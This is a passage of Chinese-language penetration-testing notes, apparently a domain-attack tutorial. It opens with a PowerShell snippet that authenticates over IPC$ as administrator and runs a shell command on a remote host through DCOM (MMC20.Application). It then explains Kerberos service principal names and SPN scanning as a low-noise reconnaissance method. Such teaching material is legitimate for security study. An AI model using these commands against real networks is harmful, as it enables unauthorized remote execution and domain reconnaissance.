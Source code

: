 ```powershell
# 通过ipc$ 建立远程连接
net use \\192.168.1.4 "<password>" /user:administrator
# DCOM执行命令
$com=[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.1.4"))
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimzed")
```

# SPN在域环境中的应用

## 基本概念

微软给域内的每种资源分配了不同的服务主体名称（**Service Principal Name, SPN**）

在使用`Kerberos`协议进行身份验证的网络中，必须在内置账号或者用户账号下为服务器注册SPN。这也导致攻击者会直接像域控制器发送查询请求，获取其需要的服务的SPN，从而知晓其需要使用的服务资源在那台机器上。

`kerberos`身份验证使用SPN将服务实例与服务登录账号关联起来，服务实例可以为其所在主机的每个名称或别名注册一个SPN

**例子**：

> 当用户需要访问MSSQL服务时，系统会以当前用户身份像域控制器查询SPN为`MSSQL`的记录。找到该SPN记录后，用户会再次与`KDC`通信，将`KDC`发放的`TGT`作为身份凭据发送给KDC，并将需要访问的SPN发送给KDC。KDC中的身份验证服务（AS）对TGT进行解密。确认无误后，由TGS将一张语序访问该SPN所对应的服务的票据和该SPN所对应的服务的地址发送给用户。用户使用该票据即可访问MSSQL服务

**SPN命令格式**

- `SPN = serviceclass "/"  hostname [":"port] ["/" servicename]`
  - `serviceclass`: 服务组件的名称
  - `hostname`：以"/"与后面的名称分隔，是计算机的FQDN（全限定域名，同时带有计算机名和域名）
  - `port`: 以冒号分割，后面是该服务监听的端口
  - `servicename`: 一个字符串，可以是服务的专有名称（DN），objectGuid，Internet主机名或全限定域名

## 常见服务

- MSSQL服务：`MSSQLSvc /computer1.pentest.com:1433`
  - MSSQLSvc:服务器组件的名称
  - computer1.pentest.com: 主机名computer1，域名为pentest.com
  - 1433：监听端口为1433

serviceclass 和 hostname 是必选参数，port和servicename是可选参数，hostname 和 port 之间的冒号只有该服务对某端口进行监听时才会使用

- Exchange服务 `exchangeMDB/EXCAS01.pentest.com`
- RDP服务`TERMSERV/EXCAS01.pentest.com`

## SPN扫描

当计算机加入域后，主SPN会自动添加到域的计算机账号的`ServicePrincipalName`属性中。在安装新的服务后，SPN也会被记录在计算机账号的相应属性中。

SPN扫描，也叫扫描Kerberos服务实例名称。它不需要通过连接网络中的每个IP地址来检查服务端口（不会因触发内网中的IPS，IDS等设备的规则而产生大量的告警日志），因为SPN查询时`kerberos`票据行为的一部分，所以检测难度很大

因为SPN是通过LDAP协议像域控制器进行查询，所以，攻击者只要获得一个蹼泳的域用户权限，就可以进行SPN扫描

# Exchange邮件服务器
